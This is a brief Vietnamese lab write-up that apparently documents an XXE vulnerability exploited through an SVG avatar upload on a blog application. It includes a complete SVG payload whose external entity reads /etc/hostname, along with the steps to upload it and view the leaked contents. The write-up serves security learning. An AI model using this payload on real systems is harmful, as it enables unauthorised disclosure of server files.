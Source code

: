 ### **Reproduce**

Tạo tệp SVG chứa mã XXE, `xxe.svg`:

```xml
<?xml version="1.0" standalone="yes"?>
<!DOCTYPE test [
<!ENTITY xxe SYSTEM "file:///etc/hostname">
]>
<svg width="128px" height="128px" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" version="1.1">
  <text font-size="16" x="0" y="16">&xxe;</text>
</svg>
```

Đăng bình luận trên blog của ứng dụng và tải `xxe.svg` làm ảnh đại diện .

Xem bình luận, ảnh SVG hiển thị nội dung của `/etc/hostname`.

![image.png](Images/image%2016.png)

**Kết luận:** XXE khai thác qua SVG upload.